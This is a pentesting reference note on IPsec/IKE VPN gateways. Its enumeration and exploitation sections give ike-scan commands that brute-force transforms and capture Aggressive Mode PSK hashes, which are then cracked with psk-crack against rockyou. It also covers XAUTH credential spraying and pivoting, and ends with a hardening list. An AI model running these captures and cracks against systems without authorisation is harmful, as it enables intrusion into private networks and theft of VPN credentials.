

# 59 - IPsec / IKE VPN (Port 500/UDP) Pentesting

## 1. Executive Summary

IPsec VPN gateways negotiate keys via **IKE/ISAKMP** on **UDP 500** (NAT-T on UDP 4500). The classic attack: if the gateway supports **Aggressive Mode** with **PSK** authentication, it returns a **hashed PSK in response to a single unauthenticated request** — capture it and crack offline to recover the VPN pre-shared key, then connect to the VPN. Even in Main Mode, you enumerate supported transforms, fingerprint the device, and abuse Phase 1.5 (XAUTH) username/password to attack VPN user credentials. `ike-scan` is the primary tool.

## 2. Protocol Overview & Architecture

IKE Phase 1 establishes the secure channel (Main or Aggressive Mode); Phase 2 sets up the IPsec SAs; optional **Phase 1.5 (XAUTH)** adds username/password user auth. A **transform** is a cipher/hash/auth/DH-group combo — the server only talks if you offer one it accepts, so step one is finding a valid transform. **Aggressive Mode** is the weakness: it sends the PSK hash + identity in fewer, unprotected messages, exposing the hash to any requester.

## 3. Enumeration & Footprinting

```bash
nmap -sU -p 500 <IP>
# Find a valid transform (Main Mode, 8 transforms per default proposal)
ike-scan -M <IP>
# Brute-force transforms if the default proposal is rejected:
for ENC in 1 5 7/128 7/192 7/256; do for HASH in 1 2; do for AUTH in 1 3 64221 65001; do for GROUP in 2 5 14; do \
  ike-scan -M --trans=$ENC,$HASH,$AUTH,$GROUP <IP>; done;done;done;done
```
The response `SA=(... Auth=PSK ...)` confirms PSK; note whether Aggressive Mode is allowed.

## 4. Exploitation Deep Dive

### 4.1 Aggressive Mode PSK Capture → Crack
```bash
ike-scan -A -M -P psk.txt <IP>          # -A aggressive; -P saves the PSK hash to a file
psk-crack -d /usr/share/wordlists/rockyou.txt psk.txt
# or convert and use hashcat
```
Recovered PSK → configure a VPN client and connect into the internal network.

### 4.2 Transform / Device Fingerprinting
`ike-scan` vendor-ID and backoff patterns fingerprint the gateway (Cisco, Fortinet, etc.), guiding device-specific exploits/default creds.

### 4.3 XAUTH (Phase 1.5) Credential Attack
If XAUTH is required, the PSK gets you to the user-auth stage; then brute/spray VPN usernames+passwords (often AD-backed) to fully connect.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- VPN access → reach internal network; pivot to internal services.
- Recovered PSK/creds may be reused across appliances.

## 7. Defense & Hardening
1. **Disable Aggressive Mode**; use Main Mode + certificate auth instead of PSK.
2. Strong, long, random PSKs; enforce XAUTH with strong/MFA user auth.
3. Restrict IKE responders to known peers; patch gateway firmware.
4. Monitor UDP 500/4500 for ike-scan-style probing.

## 8. Chaining Opportunities
- VPN foothold → internal **[[06 - SMB (Ports 139-445) Pentesting]]**, AD, databases.
- Cracked creds → cross-service reuse.

## 9. Related Notes
- [[60 - PPTP (Port 1723) Pentesting]]
- [[58 - IPMI (Port 623) Pentesting]]

## 10. Tools
`ike-scan`, `psk-crack`, `hashcat`, `nmap`.
